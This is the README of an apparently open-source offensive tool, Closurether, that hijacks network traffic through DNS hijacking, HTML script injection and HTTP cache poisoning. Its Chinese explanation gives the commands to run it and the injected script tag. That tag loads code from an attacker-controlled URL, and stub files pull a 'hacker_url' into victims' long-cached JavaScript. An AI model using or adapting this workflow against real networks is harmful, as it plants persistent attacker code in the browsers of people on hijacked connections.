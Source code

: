 Closurether
=========

##### A net network traffic hijack script, including:

  - DNS hijack
  - html code inject
  - HTTP cache poisoning

##### Description:

http://www.cnblogs.com/index-html/p/wifi_hijack_2.html

http://www.cnblogs.com/index-html/p/wifi_hijack_3.html

原理说明
==========

>>> cd tool
>>> phantomjs sniffer.js
# 遍历url.txt地址，寻找 expires - now > MIN_CACHE_DAY 和 now - last-modified > MIN_STABLE_DAY 的js文件，写入 asset/list.txt (由于有的js页面并没有 LAST-MODIFIED 或 EXPIRES 就肯定不会被收录)

# 启动服务
>>> node index.js
# 启动了俩服务: dns服务(将所有dns请求都解析到本机) http服务(修改html页面和js文件)

[F] proxy_web.js
如果是html页面，则注入 <script src="http://[inject_url(见config.json文件)]"></script>
如果是js页面，分两种情况：
1.请求地址如果是inject_url, 则返回 asset/inject.js ($LIST替换为asset/list.txt), new Image().src='http://[asset/list.txt条目]' 会被浏览器立即下载并缓存
2.请求地址如果是asset/list.txt中的某条目，则返回 asset/stub.js ($URL_HACKER替换为hacker_url@config.json文件，$URL_RAW替换为请求地址)

